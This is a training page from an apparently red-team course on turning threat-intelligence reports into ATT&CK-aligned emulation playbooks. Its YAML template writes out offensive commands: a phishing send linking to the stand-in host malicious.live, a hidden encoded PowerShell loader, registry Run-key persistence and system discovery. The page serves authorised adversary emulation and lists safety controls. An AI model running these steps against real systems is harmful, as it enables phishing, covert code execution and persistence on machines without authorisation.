```yaml
---
layout: post
title: "11.1 Playbook Design – Turning CTI into ATT&CK‑Aligned Exercises"
date: 2025-07-12
permalink: /modules/11/playbook-design/
excerpt: >
  Move from threat‑intel PDFs to executable red‑team runs.  This guide shows how
  to extract TTPs from adversary reports, map them to ATT&CK, and encode the
  sequence in a portable YAML playbook consumable by Caldera, Atomic Red Team,
  or Cobalt Strike.
header:
  overlay_image: /assets/images/playbook-design-banner.png
  overlay_color: "#2b2b2b"
  overlay_filter: "0.4"
---
```


> “If you can’t script it and replay it, you can’t improve it.”  
> — Red‑Team Program Lead

## 1 • Source Intelligence → ATT&CK IDs

| Intel Document                           | Extract Fields                 | Example |
|------------------------------------------|--------------------------------|---------|
| Mandiant APT29 Report                    | `tactic`, `technique` strings  | *“T1059 PowerShell”* |
| CISA AA‑Alert                            | IOCs + behavioural narrative   | *“SMB lateral movement”* → `T1021.002` |
| MITRE Group G… JSON                      | `technique_refs[]`             | Already mapped |

**Tip:** Use regex `T\d{4}(\.\d{3})?` to auto‑pull technique IDs from text.

---

## 2 • Decompose into Kill‑Chain Phases

| Phase         | ATT&CK TTPs (Example – APT 29)                         |
|---------------|--------------------------------------------------------|
| Initial Access| `T1566.002` (Spear‑phish Link)                         |
| Execution     | `T1059.001` (PowerShell), `T1059.003` (Cmd)            |
| Persistence   | `T1547.001` (Registry Run Keys)                        |
| Discovery     | `T1082` (System Info), `T1016` (Network Discovery)     |
| Lateral Move  | `T1021.002` (SMB / Admin$), `T1534` (Internal Spear OS)|
| C2 / Exfil    | `T1105` (HTTP POST Beacon), `T1041` (Exfil Over C2)    |

Rank each TTP by **priority**: *must‑emulate*, *nice‑to‑have*, *stretch*.

---

## 3 • YAML Playbook Template

```yaml
id: APT29_Phish_2025Q3
name: APT29 Spear‑Phish Playbook
description: >
  Replicates the 2024 APT29 phishing campaign against EU ministries.
version: "1.0"
author: kopal.chaturvedi
phases:
  - id: initial_access
    steps:
      - name: Send Phish Email
        technique: T1566.002
        c2_profile: smtp
        command: |
          python sendphish.py --to {{target}} --link http://malicious.live
  - id: execution
    steps:
      - name: Drop PowerShell Loader
        technique: T1059.001
        command: |
          powershell -w hidden -enc {{loader_b64}}
  - id: persistence
    steps:
      - name: Registry Run Key
        technique: T1547.001
        command: |
          reg add HKCU\Software\MS\WinUpdate /v Upd /t REG_SZ /d "{{exe_path}}"
  - id: discovery
    steps:
      - name: System Discovery
        technique: T1082
        command: |
          systeminfo > %TEMP%\{{guid}}.txt
metadata:
  attack_groups: ["G0016"]          # APT29
  required_privilege: "user"
  tested_on: ["Win10 22H2", "Server2019"]
```

Load this file in **Caldera** (`EMULATION > Plans > Import`) or convert to
Atomic Red Team `atomics.yaml`.

---

## 4 • Tool Mapping Matrix

| Playbook Step (Technique) | Primary Tool      | Fallback / Atomic Test |
|---------------------------|-------------------|------------------------|
| `T1566.002`               | GoPhish campaign | Atomic ID `ara-1`      |
| `T1059.001`               | PowerShell / CS  | Atomic ID `ex-1`       |
| `T1021.002`               | CobaltStrike SMB | Atomic ID `lm-3`       |

Keep mapping in **`tools.csv`** for CI pipeline.

---

## 5 • Validation Checklist

| Checkpoint                        | Method                                 |
|----------------------------------|----------------------------------------|
| **Logs Generated**               | Sysmon/Zeek capture over run           |
| **ATT&CK Coverage Layer**        | Playbook → Navigator auto‑export       |
| **Execution Success**            | Exit codes 0, screenshot proof         |
| **Cleanup**                      | Auto delete binaries & registry keys   |

Tuning passes once **100 % steps succeed** and **≥ 80 % log artefacts captured**.

---

## 6 • Risk & Safety Controls

1. **Use Simulated Payloads**—never drop real C2 inside prod ranges.  
2. **Isolation VLAN**—all emulation hosts in segregated network.  
3. **Pre‑Approved Window**—communicate ROE to blue team.  
4. **Rollback Script**—reboot & revert snapshots on failure.  

---

## 7 • Best Practices

- **Version‑Lock** playbooks (`1.1`, `1.2`)—tie to CTI report hash.  
- **Parameterise** targets (`{{target}}`) for easy rotation.  
- **Store Artefacts** (logs, PCAP) alongside playbook in Git LFS.  
- **Share as STIX 2.1** with `intrusion-set` relationship for community reuse.  

---

<div class="post-resources container">
  <h3>Resources</h3>
  <ul>
    <li><a href="https://github.com/mitre/caldera" target="_blank">MITRE Caldera Emulation Plans</a></li>
    <li><a href="https://github.com/redcanaryco/atomic-red-team" target="_blank">Atomic Red Team</a></li>
    <li><a href="https://attack.mitre.org/groups/G0016/" target="_blank">ATT&CK – APT29 (G0016)</a></li>
    <li><a href="https://www.mitre.org/sites/default/files/2022-10/apt29-report.pdf" target="_blank">Sample CTI Report – APT29</a></li>
  </ul>
</div>

<a href="{{ site.baseurl }}/modules/11/red-team-execution/" class="next-link">11.2 Red‑Team Execution →</a>